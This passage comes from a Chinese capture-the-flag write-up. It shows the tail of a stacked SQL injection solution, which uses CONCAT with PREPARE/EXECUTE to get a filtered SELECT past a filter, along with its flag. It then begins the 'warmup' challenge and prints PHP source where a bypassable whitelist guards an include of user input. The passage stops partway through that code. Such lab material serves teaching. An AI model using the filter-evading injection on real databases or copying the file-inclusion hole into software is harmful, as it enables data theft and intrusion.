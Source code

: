 > ';sEt @sql = CONCAT(‘se’,‘lect * from `1919810931114514`;’); 进行预编译
> prEpare stmt from @sql; 设置变量
> EXECUTE stmt;# 执行

flag{c168d583ed0d4d7196967b28cbd0b5e9}

# warmup

![image-20220625171823805](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251718905.png?x-oss-process=hzy)

啥也没有，看源码

![image-20220625171841977](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251718032.png?x-oss-process=hzy)

得到提示，访问/source.php,得到代码

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
```